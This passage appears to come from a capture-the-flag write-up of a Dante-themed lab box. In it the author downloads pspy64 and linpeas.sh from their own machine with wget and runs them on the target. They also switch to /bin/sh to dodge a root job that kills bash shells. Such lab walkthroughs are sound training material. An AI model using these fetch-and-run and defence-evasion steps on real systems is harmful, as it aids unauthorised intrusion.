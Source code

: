 Lets see if we can bypass this inferno. Pulling pspy64 from my local machine to see if I can manage to identify the mechanism that kills my connection

```
cd /tmp 
wget 10.11.25.15/pspy64
chmod +x pspy64
./pspy64
...
...
2021/02/15 09:40:01 CMD: UID=0    PID=5434   | pkill bash
...
...
```
OK so basically it kills off all bash shells. What about other shells on this box? let's fire up /bin/sh as the first thing when getting access - SUCCESS! 

sh is pretty bad but better than getting kicked off all the time.

## Getting user

I started enumerating a box with linpeas.sh
```
cd /tmp
wget 10.11.25.15/linpeas.sh
sh linpeas.sh
---
```
It did not reveal much except for some .htpasswd files that seems to be the ones having the password I broke previously. 
There were some files owned by root shown in the user folder for a user called Dante

So I checked the folder of those files:
```
cd /home/dante/Downloads
ls -lah
total 4.4M
drwxr-xr-x  2 root  root  4.0K Jan 11 15:29 .
drwxr-xr-x 13 dante dante 4.0K Jan 11 15:46 ..
-rw-r--r--  1 root  root  1.5K Nov  3 11:52 .download.dat
-rwxr-xr-x  1 root  root  135K Jan 11 15:29 CantoI.docx
-rwxr-xr-x  1 root  root  139K Jan 11 15:29 CantoII.docx
-rwxr-xr-x  1 root  root   87K Jan 11 15:29 CantoIII.docx
-rwxr-xr-x  1 root  root   63K Jan 11 15:29 CantoIV.docx
-rwxr-xr-x  1 root  root  131K Jan 11 15:29 CantoIX.docx
-rwxr-xr-x  1 root  root   43K Jan 11 15:22 CantoV.docx
-rwxr-xr-x  1 root  root  131K Jan 11 15:29 CantoVI.docx
-rwxr-xr-x  1 root  root  139K Jan 11 15:29 CantoVII.docx
-rwxr-xr-x  1 root  root   63K Jan 11 15:29 CantoX.docx
-rwxr-xr-x  1 root  root  119K Jan 11 15:29 CantoXI.docx
-rwxr-xr-x  1 root  root  146K Jan 11 15:22 CantoXII.docx
-rwxr-xr-x  1 root  root  212K Jan 11 15:22 CantoXIII.docx
-rwxr-xr-x  1 root  root  139K Jan 11 15:29 CantoXIV.docx
-rwxr-xr-x  1 root  root  139K Jan 11 15:29 CantoXIX.docx
-rwxr-xr-x  1 root  root   87K Jan 11 15:29 CantoXV.docx
-rwxr-xr-x  1 root  root  135K Jan 11 15:29 CantoXVI.docx
-rwxr-xr-x  1 root  root  119K Jan 11 15:29 CantoXVII.docx
-rwxr-xr-x  1 root  root  2.3M Jan 11 15:22 CantoXVIII.docx
-rwxr-xr-x  1 root  root   63K Jan 11 15:29 CantoXX.docx
```
The docx files might be interesting text but not relevant for getting user. The .download.dat file could be interesting though

